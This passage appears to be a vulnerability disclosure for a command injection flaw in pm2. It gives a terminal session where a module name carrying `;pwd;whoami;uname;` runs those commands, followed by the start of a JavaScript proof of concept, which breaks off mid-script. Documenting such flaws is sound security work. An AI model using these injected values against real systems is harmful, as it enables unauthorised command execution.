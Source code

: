 Here's an example of exploitation when `test` package is installed from command line with `pm2 install "test;pwd;whoami;uname;"` command:

```
bl4de:~/playground/Node $ ./pm2 install "test;pwd;whoami;uname;"
[PM2][Module] Installing NPM test;pwd;whoami;uname; module
[PM2][Module] Calling [NPM] to install test;pwd;whoami;uname; ...
npm WARN saveError ENOENT: no such file or directory, open '/Users/bl4de/package.json'
npm WARN enoent ENOENT: no such file or directory, open '/Users/bl4de/package.json'
npm WARN bl4de No description
npm WARN bl4de No repository field.
npm WARN bl4de No README data
npm WARN bl4de No license field.

+ test@0.6.0
updated 1 package and audited 3 packages in 0.902s
found 0 vulnerabilities

/Users/bl4de
bl4de
Darwin
/bin/sh: --loglevel=error: command not found
[PM2][ERROR] Installation failed via NPM, module has been restored to prev version
┌──────────┬────┬─────────┬──────┬───────┬────────┬─────────┬────────┬──────┬───────────┬───────┬──────────┐
│ App name │ id │ version │ mode │ pid   │ status │ restart │ uptime │ cpu  │ mem       │ user  │ watching │
├──────────┼────┼─────────┼──────┼───────┼────────┼─────────┼────────┼──────┼───────────┼───────┼──────────┤
│ app      │ 0  │ N/A     │ fork │ 86409 │ online │ 1220    │ 1s     │ 6.5% │ 31.9 MB   │ bl4de │ disabled │
└──────────┴────┴─────────┴──────┴───────┴────────┴─────────┴────────┴──────┴───────────┴───────┴──────────┘
Module
┌────────┬────┬─────────┬───────┬────────┬─────────┬──────┬───────────┬───────┐
│ Module │ id │ version │ pid   │ status │ restart │ cpu  │ memory    │ user  │
├────────┼────┼─────────┼───────┼────────┼─────────┼──────┼───────────┼───────┤
│ test   │ 1  │ 0.6.0   │ 86405 │ online │ 1216    │ 3.5% │ 32.3 MB   │ bl4de │
└────────┴────┴─────────┴───────┴────────┴─────────┴──────┴───────────┴───────┘
 Use `pm2 show <id|name>` to get more details about an app
bl4de:~/playground/Node $
```

As you can see, there is an output from `pwd`, 'whoami` and `uname` commands injected as a part of npm module name.


Here's sample PoC which exploits this vulnerability when `pm2` API is used in separate application:

```javascript
// pm2_exploit.js


'use strict'
const pm2 = require('pm2')

// payload - user controllable input
const payload = "test;pwd;whoami;uname -a;ls -l ~/playground/Node;"

pm2.connect(function (err) {
    if (err) {
        console.error(err)
        process.exit(2)
    }

    pm2.start({
```